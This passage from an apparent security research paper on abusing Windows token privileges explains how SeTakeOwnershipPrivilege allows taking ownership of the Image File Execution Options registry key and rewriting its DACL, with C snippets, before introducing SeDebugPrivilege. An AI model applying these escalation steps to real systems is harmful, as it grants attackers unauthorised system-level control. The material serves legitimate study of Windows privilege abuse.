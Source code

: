 There are several other strategies that can be used to load kernel mode
drivers, such as the FltMgr or condrv key, but these cannot be used without
administrative privileges in the first place.

###### 3.1.8 - SeTakeOwnershipPrivilege

This privilege is, offensively, similar to SeRestorePrivilege.  According
to MSDN, it allows a process to “take ownership of an object without being
granted discretionary access” by granting the WRITE_OWNER access right.
Exploiting this privilege is very similar to SeRestorePrivilege, except we
first need to take ownership of the registry key we want to write to.

Taking ownership of the registry key requires building an ACL with updated
ownership, then modifying the DACL so that we can write into it.  Building
an ACL requires the construction of an EXPLICIT_ACCESS object:
```
ea[0].grfAccessPermissions = KEY_ALL_ACCESS;
ea[0].grfAccessMode = SET_ACCESS;
ea[0].grfInheritance = SUB_CONTAINERS_AND_OBJECTS_INHERIT;
ea[0].Trustee.TrusteeForm = TRUSTEE_IS_SID;
ea[0].Trustee.TrusteeType = TRUSTEE_IS_USER;
ea[0].Trustee.ptstrName = (LPTSTR)user->User.Sid; // owner
```
We can then use SetEntriesInAcl to build the ACL object.  Once the ACL
object is composed, we take ownership of the registry path:
```
SetNamedSecurityInfo(
  _TEXT("MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options"),
  SE_REGISTRY_KEY,
  OWNER_SECURITY_INFORMATION,
  user->User.Sid,
  NULL, NULL, NULL);
```
Once we own the registry key, we make one last call to SetNamedSecurityInfo
to enable the previously composed ACL and gain write privileges to the
entry:
```
SetNamedSecurityInfo(
  _TEXT("MACHINE\\SOFTWARE\\Microsoft\\Windows
  NT\\CurrentVersion\\Image File Execution Options"),
  SE_REGISTRY_KEY, // type of object
  DACL_SECURITY_INFORMATION,   // change DACL
  NULL, NULL, // do not change owner or group
  pACL, // DACL specified
  NULL);
```
At this point we can follow the same steps taken via the SeRestorePrivilege
method, making sure to restore registry ownership once we're done.

Much like SeRestorePrivilege, we can also take control of critical system
files or folders to abuse DLL load order or other such techniques.  

###### 3.1.9 - SeDebugPrivilege

SeDebugPrivilege is very powerful, it allows the holder to debug another
process, this includes reading and writing to that process' memory. This
privilege has been widely abused for years by malware authors and exploit
developers, and therefore many of the techniques that one would use to gain
EoP through this privilege will be flagged by modern endpoint protection
solutions.
